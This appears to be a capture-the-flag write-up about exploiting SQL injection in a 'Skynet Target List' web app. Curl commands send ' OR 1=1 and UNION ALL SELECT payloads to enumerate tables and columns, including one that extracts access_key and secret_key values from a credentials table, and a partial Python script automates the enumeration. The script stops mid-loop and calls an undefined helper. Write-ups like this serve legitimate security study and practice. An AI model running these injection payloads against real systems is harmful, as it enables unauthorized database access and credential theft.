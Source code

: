 It seemed by sending the POST request form in the `multipart/form-data` format seemed to bring better results. The following curl was our first PoC of a working injection:
```bash
curl -X POST 47.242.21.212:8081 \                                                             130 ⨯
   -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
   -H 'Content-Type: multipart/form-data; boundry=----xxx' \
   -F "name=' OR 1=1 OR name='"
```
```html
<!DOCTYPE html>
<head>
  <link rel="stylesheet" href="static/style.css">
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Skynet Target List</title>
</head>

<body>
  <div class="query">

      <h1>Kill before</h1>
      <h1>skynet: 1997-04-19 00:00:00</h1>

  </div>
</body>
```

By injecting UNION commands we can start to enumerate the database. To pull out the table names we can run the following curl multiple times, changing the `OFFSET` each time:

```bash
curl -v -X POST 47.242.21.212:8085 \
   -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
   -H 'Content-Type: multipart/form-data' \
   -F "name=' UNION ALL SELECT TABLE_SCHEMA, TABLE_TYPE FROM information_schema.tables LIMIT 1 OFFSET '1"
```

We can also pull out the column names in each table using a similar method:
```bash
curl -v -X POST 47.242.21.212:8085 \
   -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
   -H 'Content-Type: multipart/form-data' \
   -F "name=' UNION ALL SELECT access_key, secret_key FROM target_credentials LIMIT 1 OFFSET '1"
```

The following Python 3 script was written to do this enumeration automatically:
```python
import subprocess

def main():
     command = """
     curl -v -X POST 47.242.21.212:8085 \
    -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
    -H 'Content-Type: multipart/form-data' \
    -F "name=' UNION ALL SELECT table_name, column_name FROM information_schema.columns LIMIT 1 OFFSET '{}"
     """

    for i in range(10):
        print(f"i = {i}")

        c = command.format(i)

        out = curl(c)
        if "Target not found" in out.decode("utf-8"):
            continue

```